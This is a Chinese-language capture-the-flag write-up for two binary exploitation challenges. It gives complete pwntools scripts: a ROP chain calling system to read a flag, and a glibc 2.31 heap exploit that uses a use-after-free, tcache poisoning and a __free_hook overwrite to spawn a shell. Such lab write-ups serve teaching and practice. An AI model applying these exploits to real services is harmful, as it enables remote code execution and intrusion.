








# fd

## 题目描述

小蓝同学学习了栈溢出的知识后，又了解到linux系统中文件描述符（File Descriptor）是一个非常重要的概念，它是一个非负整数，用于标识一个特定的文件或其他输入输出资源，如套接字和管道。 

## 思路

本题非常简单，就不详细说明了

## EXP

```python
#!/bin/python
# _*_ coding: utf-8 _*_

from pwn import *

context(arch = 'amd64', os = 'linux')
context.terminal = ['konsole', '-e']
context.log_level = 'debug'
context.binary = './pwn'
e = ELF('./pwn')
libc = e.libc
# libc = ELF('')
host = "127.0.0.1"
post = 9999
if args['RE']:
    io = remote(host, post)
else:
    io = process('./pwn')

def debug():
    gdb.attach(io)
    pause()

# ===== lambda =====
sa  = lambda s, d: io.sendafter(s, d)       # send after
sla = lambda s, d: io.sendlineafter(s, d)   # sendline after  
sl  = lambda d:    io.sendline(d)           # sendline
sd  = lambda d:    io.send(d)               # send
ru  = lambda s:    io.recvuntil(s)          # recvuntil
rc  = lambda n:    io.recv(n)               # recv n bytes
rl  = lambda :     io.recvline()            # recvline
ti  = lambda :     io.interactive()         # interactive
lg  = lambda s, v:    log.info('\033[1;32m %s --> 0x%x \033[0m' % (s, v))

# ===== main =====
def main():
    ret = 0x00000000004005ae
    pop_rdi = 0x0000000000400933
    info = 0x00601090
    system = e.plt['system'] 

    ru(b"restricted stack.")
    sd(b"$0")

    payload = b'a'* 0x28 + p64(ret) + p64(pop_rdi) + p64(info) + p64(system)
    ru(b"...")
    sd(payload)

    sd(b"cat /flag 1>&2")


# ===== exec =====
if __name__ == '__main__':
    main() 
    ti()

```


# ezheap

## 题目描述

小蓝同学第二次尝试使用C语言编写程序时，由于缺乏良好的安全开发经验和习惯，导致了未初始化的指针漏洞（Use After Free，UAF漏洞）。在他的程序中，他没有正确释放动态分配的内存空间，并且在之后继续使用了已经释放的指针，造 成了悬空指针的问题。这种错误会导致程序在运行时出现未定义的行为，可能被恶意利用来执行恶意代码，破坏数据或者系统安全性。你能找到该漏洞并利用成功吗？

## 思路

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
```

本质上还是一个菜单堆题目，其他函数中规中矩，add()函数每次分配固定大小为 0x60 字节的 chunk，当 opt == 2106373 时，跳转到一个隐藏函数，该函数是有uaf漏洞，但是只能触发一次。

```c
void uaf(void)

{
  int idx;
  
  if (flag != 0) {
    idx = get_atoi();
    if ((0xf < idx) || (idx < 0)) {
                    /* WARNING: Subroutine does not return */
      _exit(0);
    }
    if (*(long *)(&g_chk_list + (long)idx * 8) == 0) {
                    /* WARNING: Subroutine does not return */
      _exit(0);
    }
    free(*(void **)(&g_chk_list + (long)idx * 8));
    flag = 0;
  }
  return;
}
```

题目环境为 glibc 2.31，所以大概率还是劫持 _free_hook 或者 _malloc_hook。但是这道题目难受就难受在只能用一次uaf。而且这个uaf函数的逻辑还不能正常触发，~~整个程序看起来像是为了出题而出题~~

### 泄露堆地址

```python
    for i in range(11):
        add(f"chunk{i}")
    add(p64(0)*5 + p64(0x31))
    dele(0)
    dele(1)
```

首先先一次性分配多个堆地址，这里分配11个，第11个之所以要额外 add 是为构造一个 fake_chunk，防止合并。然后依次释放chunk0，chunk1。

tcache bin中排布如下

```
[0x60]: [1]->[0]
```

然后我们在将其分配回来，由于这里使用的是malloc，从tcache bin中取chunk的时候，不会清空fd指针，所以我们可以通过部分写的方式，修改最低位来实现。

```python
add(b'\xa0')
add("idx_1")
show(0)
```

由于 chunk1 是后释放的，位于链表的头部，所以只有 chunk1 中的 fd 指针才有值，重新分配后，chunk1 在排序上会变成 chunk0,所以这里使用的是 `show(0)`

之后就是对泄露出的地址做一些简单的数据做一些处理，就可以得到 heap_base

```python
rl()
heap_base = u64(rc(6).ljust(8, b'\x00')) - 0x2a0
lg("heap_base", heap_base)
```





这里的0x2a0可通过泄露出的 fd指针值与 vmmap 中展示的当前进程的堆基址运算得出。

### Tcache Poisoning

```python
for i in range(7):
        dele(i+2)

uaf()
dele(1)
dele(0)
```

首先将 tcache bin 填满，然后吊诡的就来了，这里的 `uaf()`辅助函数，仅仅是给程序发送了一个特殊选项`2106373`，虽然从反编译代码来看，程序中的 uaf() 函数还会读取一个 idx，但是实际与程序的交互中发现，其并不会这么做，而是在需要在触发 uaf() 后，自动释放当前idx=0的chunk。

如下是在脚本执行完脚本中的辅助函数uaf()后的堆内存：



之后，再释放 idx=0 和 idx=1 的chunk时，就会造成 double-free




```python
for i in range(7):
        add(b"aaaaaaaa")
debug()

add(p64(heap_base+0x2c0))
add(p64(0) * 3 + p64(0x431))
add(p64(0) * 3 + p64(0x431))
add(p64(0) * 3 + p64(0x431))
```

因为堆管理器会优先使用tcache bin中的chunk，所以我们需要先将tcache bin中的7个chunk全部add回来。

然后最重要的来了，自 glibc 2.26 引入 tcache_bin 后，__libc_malloc 在处理大小在 tcache 范围内的 chunk的请求时，会优先从fastbin中搬移空闲的 chunk 填充到 tcache， 然后再从 tcache 分配。

我们在执行`add(p64(heap_base+0x2c0))`前和后下两个调试，就可以看到：





变成这样的原因也很简单

原来在 fastbin 内，链结点排布如下：

```
[chunk1] -> [chunk0] -> [chunk1]
```

然后当执行了 `add(p64(heap_base+0x2c0))` 后，最前面的 chunk1 被分配出去，剩下的 chunk0 和 chunk1 被移动道 tcache 中

```
[chunk0] -> [chunk1]
```

然后由于由于我们在 add 时，将 chunk1 的 fd 指针 改为了 heap_base + 0x2c0，所以，链表就变成了如下的样子

```
[chunk0] -> [chunk1] -> [heap_base + 0x2c0]
```

接下来的三个 add 就是在分别在 chunk0 内部伪造两个大小为0x431的 chunk 头，在 chunk1 内伪造一个，并且，从上图中也可以看出，堆块 [heap_base + 0x2c0] 也被算作一个 chunk，所以，在 chunk0 内部就有了一个大小为 0x431 的 fake_chunk，编号i是13



### libc leak

```python
dele(13)

add(b"\xe0")
show(13)

libc.address = u64(ru(b"\x7f")[-6:].ljust(8, b'\x00')) - 0x1ecbe0 - 0x400
lg("libc_base", libc.address)

free_hook = libc.sym['__free_hook']
system = libc.sym['system']
lg("free_hook", free_hook)
lg("system", system)
```

接下来就是释放 fake_chunk，然后通过 add 部分写的方式泄露出 unsortbin 的地址，然后就是寻常的计算 libc 中所需符号的偏移

### hijack __free_hook

目前的堆内存如下



由于 fake_chunk 大小为 0x431，释放后存放道 unsortbin，所以程序执行 `add(b"\xe0")`时会从 fake_chunk中割出一块大小为 0x60 的 chunk，所以看到 unsortedbin 指针跑到了 chunk1 里面。

为了能成功 hijack __free_hook，我们需要创造出一个任意写的条件，根据之前的经验，还是使用目前堆块重叠的条件，让 free_hook 挂进 tcache 里面，然后在分配出来，改成 system 的地址就行了

```python
    # Stage 4: Hijack __free_hook and get shell
    dele(11)
    dele(12)
    dele(13)
    add(b"\x00" * 0x38 + p64(0x61) + p64(free_hook))
    add(b"/bin/sh\x00")
    add(p64(system))
    dele(12)
```

## EXP

```python
#!/bin/python
# _*_ coding: utf-8 _*_

from pwn import *

context(arch = 'amd64', os = 'linux')
context.terminal = ['konsole', '-e']
context.log_level = 'info'
context.binary = './ezheap'
e = ELF('./ezheap')
libc = ELF('./libc.so.6')
# libc = ELF('')
host = "127.0.0.1"
post = 9999
if args['RE']:
    io = remote(host, post)
else:
    io = process('./ezheap')

def debug():
    gdb.attach(io)
    pause()

# ===== lambda =====
sa  = lambda s, d: io.sendafter(s, d)       # send after
sla = lambda s, d: io.sendlineafter(s, d)   # sendline after  
sl  = lambda d:    io.sendline(d)           # sendline
sd  = lambda d:    io.send(d)               # send
ru  = lambda s:    io.recvuntil(s)          # recvuntil
rc  = lambda n:    io.recv(n)               # recv n bytes
rl  = lambda :     io.recvline()            # recvline
ti  = lambda :     io.interactive()         # interactive
lg  = lambda s, v:    log.info('\033[1;32m %s --> 0x%x \033[0m' % (s, v))

def menu(opt):
    sla(b"4.exit",str(opt))
    sleep(0.1)

def add(content):
    menu(1)
    sd(content)
    sleep(0.1)

def dele(idx):
    menu(2)
    sl(str(idx))
    sleep(0.1)

def show(idx):
    menu(3)
    sl(str(idx))
    sleep(0.1)

def uaf():
    menu(2106373)
    sleep(0.1)

# ===== main =====
def main():
    # Stage 1: Heap Base Leak
    for i in range(11):
        add(f"chunk{i}")
    add(p64(0)*5 + p64(0x31))
    dele(0)
    dele(1)

    add(b'\xa0')
    add("idx_1")
    show(0)
    rl()
    heap_base = u64(rc(6).ljust(8, b'\x00')) - 0x2a0
    lg("heap_base", heap_base)

    # Stage 2: TCache Poisoning
    for i in range(7):
        dele(i+2)

    uaf()
    dele(1)
    dele(0)

    for i in range(7):
        add(b"aaaaaaaa")

    add(p64(heap_base+0x2c0))
    add(p64(0) * 3 + p64(0x431))
    add(p64(0) * 3 + p64(0x431))
    add(p64(0) * 3 + p64(0x431))

    # Stage 3: Libc Leak
    dele(13)

    add(b"\xe0")
    show(13)

    libc.address = u64(ru(b"\x7f")[-6:].ljust(8, b'\x00')) - 0x1ecbe0 - 0x400
    lg("libc_base", libc.address)

    free_hook = libc.sym['__free_hook']
    system = libc.sym['system']
    lg("free_hook", free_hook)
    lg("system", system)

    # Stage 4: Hijack __free_hook and get shell
    dele(11)
    dele(12)
    dele(13)
    add(b"\x00" * 0x38 + p64(0x61) + p64(free_hook))
    add(b"/bin/sh\x00")
    add(p64(system))
    dele(12)

# ===== exec =====
if __name__ == '__main__':
    main() 
    ti()
```


